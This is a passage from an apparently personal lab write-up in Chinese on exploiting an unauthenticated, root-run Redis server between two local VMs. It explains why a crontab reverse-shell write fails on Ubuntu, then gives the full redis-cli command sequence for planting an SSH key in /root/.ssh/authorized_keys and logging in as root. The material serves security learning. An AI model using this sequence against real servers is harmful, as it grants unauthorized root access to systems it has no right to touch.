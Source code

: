 我又想把kali的shell反弹到ubantu上,于是反过来做了一遍,kali上也可以写入,但是也没有反弹shell,我就bash执行了一下文件,还是不行

不知道是不是因为我ubantu登陆的用户不是root,但是运行redis的时候是以root权限运行的

终于在大佬博客看到了原因https://xz.aliyun.com/t/5665#toc-8

这个方法只能`Centos`上使用，`Ubuntu上行不通`，原因如下：

1. 因为默认redis写文件后是644的权限，但ubuntu要求执行定时任务文件`/var/spool/cron/crontabs/<username>`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/<username>`权限644也能执行
2. 因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

## 写入ssh公钥然后登陆

利用条件

```
Redis服务使用root账号启动
服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
```

这里靶机我选择的是kali,攻击机是ubantu

输入命令mkdir /root/.ssh创建ssh公钥的存放目录

在ubantu中输入ssh-keygen -t rsa来生成ssh公钥和私钥,密码设置为空

我在kali中生成密钥的图片

![image-20210731222121634](images/14.png)

在ssh目录下查看刚刚生成的公钥

```
cd /root/.ssh
ls
cat id_rsa.pub
```

用redis服务连接kali,将公钥写入kali的ssh目录下

```
redis-cli -h 192.168.121.129
config set dir /root/.ssh
config set dbfilename authorized_keys
set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDJuOG2dJaJBUTyQZamUxETnfpZ8l7Rtq3UyeqXMzkQfV6PwEzgpoGvdELSh4qRcnu6qB7AabAArqZwMbsE5Ne2keR0ITsfKLYCZKWr1MoTbDZUmjc6SAYOJB8b4j/t1900EpXPhA2zQK9J1fn0VNgEXr/7hyxcKhgP7gcEBCmCqZUGK7kFq1sfu+JKCMQpxg+N9B2G/U4Ny1scb6OXPNyspvK8kI+V7i8gwRCxnekEBe+2zQs3+BK7b/UkDiXaGR73PMk7gV25h0JUr/rT69eX2rBNmb17x4wmDQ20RCgzWsj97w+pPGnJp4FdWu9fs5Ri6BbHOuKeqY4q8Z/iSVyN root@ubuntu\n\n\n"
save
```

![image-20210731225812938](images/15.png)

利用ssh私钥登陆

```
ssh -i id_rsa root@192.168.121.129
```
